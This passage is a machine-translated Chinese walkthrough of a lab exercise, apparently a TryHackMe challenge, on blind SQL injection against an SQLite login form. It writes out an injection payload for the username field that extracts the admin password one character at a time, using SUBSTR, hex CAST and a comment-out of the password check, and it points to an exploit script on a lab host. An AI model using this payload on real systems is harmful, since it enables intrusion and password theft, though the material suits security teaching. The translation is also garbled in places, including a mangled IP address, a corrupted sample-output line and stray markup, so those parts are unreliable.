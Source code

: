 *****下一步是将管理员的密码作为字符串输入到 [substr](https://sqlite.org/lang_corefunc.html#substr) 函数中。这可以通过以下查询实现:*****

```
***(SELECT password FROM users LIMIT 0,1)***
```

*****[LIMIT](https://sqlite.org/lang_select.html#limitoffset) 子句用于限制 SELECT 语句返回的数据量。第一个数字 0 是偏移量，第二个整数是限值:*****

```
***LIMIT <OFFSET>, <LIMIT>***
```

*****以下是[限制](https://sqlite.org/lang_select.html#limitoffset)条款的几个实例。右边的表代表用户表。*****

```
***sqlite> SELECT password FROM users LIMIT 0,1THM{Blind}sqlite> SELECT password FROM users LIMIT 1,1Summer2019!sqlite> SELECT password FROM users LIMIT 0,2THM{Blind}Summer2019!***
```

*****THM { Blind }夏季！维京 123*****

*****返回管理员密码第一个字符的 SQL 查询如下所示:*****

```
***SUBSTR((SELECT password FROM users LIMIT 0,1),1,1)***
```

*****现在我们需要一种方法来比较密码的第一个字符和我们猜测的值。比较字符很容易，我们可以这样做:*****

```
***SUBSTR((SELECT password FROM users LIMIT 0,1),1,1) = 'T'***
```

*****然而，这种方法是否有效将取决于应用程序如何处理输入。对于这个挑战，应用程序将用户名转换为小写，这打破了前面提到的方法，因为大写 T 与小写 T 不同。ASCII T 的十六进制表示是 0x54，小写 T 是 0x74。为了处理这个问题，我们可以通过替换类型 [X](https://www.sqlite.org/printf.html#substitution_types) 将字符输入为十六进制表示，然后使用 SQLite 的 [CAST](https://sqlite.org/lang_expr.html#castexpr) 表达式将值转换为数据库期望的数据类型。*****

*****" X，X:参数是以十六进制显示的整数。小写的十六进制用于%x，大写的用于% X”“(【sqlite.org】T4)*****

*****这意味着我们可以将 T 输入为 X'54 '。要将值转换为 SQLite 的文本类型，我们可以使用如下的 CAST 表达式:CAST(X'54' as Text)。我们最后的查询现在看起来如下:*****

```
***SUBSTR((SELECT password FROM users LIMIT 0,1),1,1) = CAST(X'54' as Text)***
```

*****在使用我们构建的查询之前，我们需要使它适合原始查询。我们的查询将放在用户名字段中。我们可以通过添加一个单引号(')来关闭 username 参数，然后附加一个 and 运算符来添加我们的条件。然后在查询末尾添加两个破折号(—)来注释掉密码检查。完成后，我们恶意查询如下所示:*****

```
***admin' AND SUBSTR((SELECT password FROM users LIMIT 0,1),1,1) = CAST(X'54' as Text)-- -***
```

*****当将其注入用户名字段时，数据库执行的最终查询将是:*****

```
***SELECT **id**, username FROM users WHERE username = 'admin' AND SUBSTR((SELECT password FROM users LIMIT 0,1),1,1) = CAST(X'54' as Text)***
```

*****如果应用程序响应 302 重定向，那么我们就找到了密码的第一个字符。为了获得完整的密码，攻击者必须对密码中的每个字符进行多次测试。测试每一个字符都很繁琐，使用脚本更容易实现。一个简单的解决方案是遍历每个可能的 ASCII 字符，并将其与数据库的字符进行比较。上述方法会产生大量流向目标的流量，但不是最有效的方法。机器内部提供了一个示例脚本，可以通过进入[**http://10 . 110 . 236:5000/view/challenge 3/challenge 3-exploit . py**](http://10.10.110.236:5000/view/challenge3/challenge3-exploit.py)**查看和下载；**注意，有必要使用 password_len 变量更改密码长度。密码的长度可以通过查询数据库找到。例如，在下面的查询中，我们询问数据库密码的长度是否等于 37:*****
